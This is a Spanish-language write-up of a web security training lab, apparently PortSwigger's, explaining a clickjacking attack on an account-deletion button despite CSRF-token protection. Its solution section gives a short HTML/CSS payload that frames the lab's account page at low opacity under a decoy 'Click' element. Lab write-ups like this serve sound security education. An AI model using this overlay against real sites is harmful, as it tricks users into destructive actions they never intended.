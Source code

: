 Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.

Este laboratorio permite comprender cómo técnicas visuales engañosas pueden ser tan efectivas como vulnerabilidades técnicas si la interfaz no está debidamente protegida.

Solucion
Basicamente en este laboratorio es engañar al usuario para que le de en un boton donde el texto esta disfrazado 
Aqui el payload
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 600px;
        opacity: 0.1;
    }
    div {
        position:absolute;
        top: 500px;
        left: 40px;
    }
</style>
<div>Click</div>
<iframe src="https://0a8800b9034fe4b880dd9e3e0002001c.web-security-academy.net/my-account"></iframe>

![Pasted image 20250724215309.png](imagenes/Pasted image 20250724215309.png)
